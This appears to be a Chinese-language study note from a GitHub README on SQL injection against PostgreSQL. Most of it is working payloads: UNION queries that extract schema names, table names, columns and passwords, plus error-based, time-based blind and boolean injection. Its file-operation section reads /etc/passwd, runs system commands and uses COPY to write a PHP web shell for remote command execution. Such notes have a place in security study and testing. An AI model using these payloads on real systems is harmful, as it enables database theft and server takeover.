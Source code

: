 # PostgreSQL

## 安装

https://www.runoob.com/postgresql/windows-install-postgresql.html



## 介绍

PostgreSQL是一种特性非常齐全的自由软件的对象-关系型数据库管理系统（ORDBMS）。

默认端口是5432，默认用户名和数据库都是`postgres`。

## 环境

简单弄个数据表：

![image-20220318091519737](README.assets/image-20220318091519737.png)

## 语法上的一些差别

感觉postgresql对于类型上的限制更大一下，注入前语句最好都本地测试一下。

## 常见的查询命令

```sql
select CURRENT_SCHEMA()           #查看当前权限
#一般是public，用户默认情况下具有public权限，public默认具有创建和使用schema的权限，因此意味着可以在schema中创建对象（包括表）、列出schema中的对象，并在其权限允许时访问它们。



select user                       #查看用户
#默认是postgres


select current_user               #查看当前用户
select chr(97)                    #将ASCII码转为字符
select chr(97)||chr(100)||chr(109)||chr(105)||chr(110)  #将ASCII转换为字符串


SELECT session_user;


SELECT usename FROM pg_user;
SELECT getpgusername();
select version()                  #查看PostgreSQL数据库版本
SELECT current_database()         #查看当前数据库
select length('admin')            #查看长度
 
select case when(expr1) then result1 else result2 end;  #如果xx，执行result1，否则result2
例：select case when(current_user='postgres') then pg_sleep(5) else pg_sleep(0) end;
 
select pg_read_file("/etc/passwd");          #读取文件
select system("whoami");                     #执行系统命令,11.2以下才有该命令
COPY (select '<?php phpinfo();?>') to '/tmp/1.php';   #写入文件
```



## 联合查询

```sql
select * from users where id = 1 order by 3
select * from users where id = -1 union select 1,'2','3'--这是注释
```

获取模式名称schemaname：

```sql
select * from users where id = -1 UNION SELECT NULL,schemaname,NULL FROM pg_tables--
```

获取数据表：

```sql
select * from users where id = -1 UNION SELECT NULL,tablename,NULL FROM pg_tables where schemaname in ('public')
```

获取列名：

```sql
select * from users where id = -1 UNION SELECT NULL,attname,NULL FROM pg_namespace,pg_type,pg_attribute b JOIN pg_class a ON a.oid=b.attrelid WHERE a.relnamespace=pg_namespace.oid AND pg_type.oid=b.atttypid AND attnum>0 AND a.relname='users' AND nspname='public'
```

获取内容：

```sql
select * from users where id = -1 UNION SELECT null,null,password from users
```



当然有比较简单的查询办法，因为`postgresql`中也是有`information`表的。

```sql
select * from users where id = -1 UNION select null,null, 'table_name' from information_schema.columns where table_schema='public' and table_name<>'pg_stat_statements';

select * from users where id = -1 UNION select null,null, column_name from information_schema.columns where table_schema='public' and table_name<>'pg_stat_statements' and table_name = 'users' limit 1 offset 1;
```



## 报错注入

```sql
select * from users where id = 1 AND 1=CAST((SELECT version())::text AS NUMERIC)
--错误:  无效的类型 numeric 输入语法: "PostgreSQL 14.2, compiled by Visual C++ build 1914, 64-bit"

```



## 时间盲注

postgresql中延时函数是`pg_sleep`。

```sql
select * from users where id = -1 or 1=(select 123 from PG_SLEEP(5))

```

## 堆叠注入

和`mysql`一样用分号。

## 布尔注入

```sql
select * from users where id = -1 union select 1,(select case when 1=2 then 'a' else 'b' end),'3' --
```

postgresql中没有`if`，用的是`case then xxx then xxx else xxx end`。

## 文件操作

列目录函数`pg_ls_dir`：

```sql
select * from users where id = -1 union select null,null,pg_ls_dir('./')
```



写文件（一般用于rce）：

```sql
CREATE TABLE hacktb (t TEXT);

INSERT INTO hacktb(t) VALUES ('<?php @system("$_GET[cmd]");?>');

COPY hacktb(t) TO 'D:\1.txt';
```



读文件：

```sql
DROP table hacktb;
CREATE TABLE hacktb (t TEXT);
COPY hacktb from 'D:\flag';
select * from hacktb
```



实际上文件操作别的系列函数比如`pg_logdir_ls()、pg_ls_dir()、pg_file_rename()、pg_file_write()、 pg_read_file()、pg_length_file()`等，但是这些都会收到权限和目录的限制，根据实际情况测试使用。